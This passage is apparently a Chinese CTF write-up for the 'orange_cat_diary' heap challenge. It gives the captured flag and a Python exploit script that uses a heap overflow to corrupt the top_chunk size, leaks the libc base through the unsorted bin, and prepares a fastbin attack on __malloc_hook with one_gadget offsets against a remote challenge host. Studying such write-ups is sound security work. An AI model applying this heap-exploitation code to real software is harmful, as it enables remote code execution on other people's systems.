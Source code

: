`flag{c3182eaa-5d80-4c89-9e79-27a2aab4ba0d}`

### orange_cat_diary

堆溢出改top_chunk size，申请大于top_size的堆块，释放到unsorted bin，一次show泄露libc,一次free释放至fastbin，uaf打fastbin attack ， 写onegadget getshell

```python
from Excalibur2 import*

proc("./pwn")
remo("8.147.132.163:17545")
lib("./libc-2.23.so")

default("h")

def add(size, data):
    sla("choice","1")
    sla("length of the diary content:",str(size))
    sla("content:",data)

def show():
    sla("choice","2")

def dele():
    sla("choice","3")

def edit(size, data):
    sla("choice","4")
    sla("length of the diary content:",str(size))
    sla("content:",data)


sl("aaaa")
debug("b *$rebase(0xCD9)\n b *$rebase(0xBF5)\n b *$rebase(0xDE9)\n b *$rebase(0xD83)\n")# edit add show dele
# add(0x420,"A")
# add(0x20,"A")
# add(0x420,"A")
# dele()
# show()

# addr = get_addr64()

# debug("b *$rebase(0xCD9)\n")

## heap overflow
add(0x68,"A")
# dele()
edit(0x70,b"A"*0x68+p64(0xF91))
add(0x1000,"A")
add(0xf60,"A")
show()

addr = get_addr64()
addr = get_addr64()
libc = addr -0x3c4b78
lg("libc base",libc)
malloc_hook = libc+libcsym("__malloc_hook")
lg("malloc_hook",malloc_hook)

og = [0x45226,0x4527a,0xf03a4,0xf1247]
add(0x68,"B")
dele()
```
